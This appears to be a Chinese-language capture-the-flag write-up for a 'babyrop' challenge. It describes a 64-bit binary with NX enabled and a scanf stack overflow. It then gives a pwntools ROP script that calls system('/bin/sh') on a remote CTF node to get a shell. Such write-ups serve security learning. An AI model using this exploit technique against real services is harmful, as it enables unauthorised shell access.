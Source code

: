 首先检查安全机制

![image-20201105114634910](https://static.hack1s.fun/images/2021/02/06/image-20201105114634910.png)

开启了NX，是64位的程序

在IDA中反编译main函数

![image-20201105114754145](https://static.hack1s.fun/images/2021/02/06/image-20201105114754145.png)

输入了一个v4，之后输出，这里的scanf存在溢出

数据段中存在一个后门字符串

![image-20201105114914833](https://static.hack1s.fun/images/2021/02/06/image-20201105114914833.png)

思路就是溢出返回地址，之后调用system函数

payload还是比较简单的，和之前例子差不多

```python
from pwn import *

#io = process('./babyrop')
io = remote('node3.buuoj.cn',25747)
elf = ELF('./babyrop')

bin_sh = elf.sym['binsh']

io.recvuntil('name? ')
pop_rdi = 0x400683

payload = 'a'*0x10 + 'b'*0x8 + p64(pop_rdi) +  p64(bin_sh) + p64(elf.sym['system'])

io.sendline(payload)

io.interactive()
```

但是拿到shell之后发现flag居然不在根目录，少见

![image-20201105120131498](https://static.hack1s.fun/images/2021/02/06/image-20201105120131498.png)

